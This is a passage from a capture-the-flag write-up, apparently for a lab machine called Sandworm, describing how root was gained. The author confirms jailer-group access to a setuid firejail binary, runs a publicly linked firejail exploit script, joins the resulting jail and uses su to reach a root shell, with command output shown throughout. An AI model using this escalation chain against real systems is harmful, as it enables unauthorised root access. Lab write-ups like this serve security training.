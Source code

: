 ## root

Once connected as atlas, I had a pretty good idea of the path to root. I confirmed that I could run firejail now that I was outside the jail.

```bash
atlas@sandworm:~$ groups
atlas jailer

atlas@sandworm:~$ ls -l /usr/local/bin/firejail
-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
```

I was in the jailer group, so I could run it. I downloaded the [exploit script](https://www.openwall.com/lists/oss-security/2022/06/08/10/1) I found earlier and ran it.

```bash
atlas@sandworm:~$ ./exploit.py
You can now run 'firejail --join=6158' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

I opened a new terminal and joined the jail the script created.

```bash
atlas@sandworm:~$ /usr/local/bin/firejail --join=6158
changing root to /proc/6158/root
Warning: cleaning all supplementary groups
Child process initialized in 3.99 ms

atlas@sandworm:~$ sudo su -
atlas is not in the sudoers file.  This incident will be reported.

atlas@sandworm:~$ su
root@sandworm:/home/atlas# cat /root/root.txt
REDACTED
```